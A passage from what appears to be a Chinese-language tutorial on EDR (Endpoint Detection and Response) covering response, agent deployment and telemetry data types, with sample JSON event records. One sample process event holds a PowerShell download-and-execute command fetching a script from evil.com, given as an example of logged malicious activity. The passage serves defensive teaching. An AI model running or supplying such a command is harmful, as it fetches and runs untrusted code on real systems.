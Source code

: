 4.  **快速响应（Rapid Response）**：在确认威胁后，EDR允许安全团队迅速采取行动，遏制威胁并修复受影响的系统。响应的目的是最小化损害、阻止威胁传播，并确保系统恢复到安全状态。这包括远程隔离、终止进程、删除文件等操作，有些EDR甚至支持自动化响应。

这四个环节形成了一个强大的循环，使得组织能够从被动防御转向主动狩猎，从滞后响应转向实时遏制，大大提升了抵御复杂网络攻击的能力。

## EDR的核心功能与技术原理

EDR系统的强大之处在于其背后复杂的工程实现和多样的技术融合。本节将深入探讨EDR的几个核心功能模块，并揭示其背后的技术原理。

### 数据采集与遥测

数据是EDR的生命线。没有足够详细、全面的数据，任何高级的检测和分析都无从谈起。EDR通过部署在端点上的**代理（Agent）**来持续采集遥测数据。

#### 端点代理的角色和部署方式

*   **角色**：EDR代理是运行在每个受保护端点上的轻量级软件。它负责监控系统调用、文件操作、网络连接、进程活动等几乎所有与安全相关的系统事件，并将这些事件数据发送回EDR的中央分析平台。
*   **部署方式**：
    *   **静默安装**：通常通过组策略（GPO）、系统中心配置管理器（SCCM）或其他企业部署工具进行大规模部署。
    *   **云原生/SaaS模式**：代理直接连接到云端的EDR服务，无需在本地部署大量基础设施。这是当前主流的部署模式。
    *   **API集成**：在云工作负载等场景下，可能通过云服务商的API获取日志和遥测数据，实现“无代理”的逻辑监控，但严格意义上，EDR的核心仍依赖于在操作系统层面的代理。

#### 采集的数据类型

EDR代理通常以非常细粒度的方式收集以下类型的数据：

1.  **进程活动 (Process Activity)**：
    *   **进程创建/终止**：记录进程ID (PID)、父进程ID (PPID)、进程名称、命令行参数、创建时间、用户账户等。
    *   **进程注入**：记录一个进程如何将代码注入到另一个进程的内存空间中，这常常是恶意软件隐藏自身或提权的手段。
    *   **权限提升**：记录进程获取更高权限的操作。
    *   **示例数据结构（JSON伪代码）**：
        ```json
        {
          "eventType": "ProcessCreate",
          "timestamp": "2023-10-27T10:30:00Z",
          "processId": "1234",
          "parentProcessId": "5678",
          "processName": "powershell.exe",
          "commandLine": "powershell.exe -NoP -NonI -Exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://evil.com/malware.ps1')\"",
          "userName": "Administrator",
          "filePath": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
          "hash": "abcdef1234567890..."
        }
        ```

2.  **文件活动 (File Activity)**：
    *   **文件创建、修改、删除、重命名、读写**：记录文件名、文件路径、操作类型、发起操作的进程、时间戳、文件哈希等。
    *   **文件属性变更**：如隐藏文件、修改时间戳等。
    *   **示例数据结构**：
        ```json
        {
          "eventType": "FileWrite",
          "timestamp": "2023-10-27T10:30:05Z",
          "filePath": "C:\\Users\\User\\Documents\\important.docx",
          "operation": "Write",
          "processName": "malware.exe",
          "userName": "User",
          "hash": "deadbeef..."
        }
        ```
